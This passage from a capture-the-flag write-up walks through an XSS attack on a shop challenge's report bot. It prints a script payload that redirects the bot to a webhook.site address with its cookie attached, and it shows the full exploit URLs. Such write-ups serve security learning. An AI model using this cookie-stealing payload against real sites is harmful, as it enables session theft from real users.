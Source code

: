 ![Modifying the product ID from client-side HTML](./media/img/HTMLmodif.png)

Checking the logs, it can be seen that the bot is redirected to `search?q=Incredible`:

![Bot log visiting the search page with the value entered by the reporter](./media/img/BotFallsForIt.png)

A brief check of the site's route structure confirms this.

Now all that's left is to try the payload that worked before to exfiltrate our cookie on the bot. Trying the payload `<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>`, you would notice that the complete URL being visited is `http://localhost:3000/search?q=<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>` or `http://perfectshop.challs.open.ecsc2024.it/search?q=<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>` depending on whether you are testing the challenge locally or on the competition server.

This means that the same request must be made by the bot, which means making the same modification made before, combining it with the exploit already used:

![Example of successful attack without filter](./media/img/WePwnNoFilter.png)

Of course, I'm not URL-encoding the payload here just to make it easier to understand what's happening, but you viewers at home must remember to URL-encode properly <3 (on Burp, CTRL+U highlighting the text to be URL-encoded):
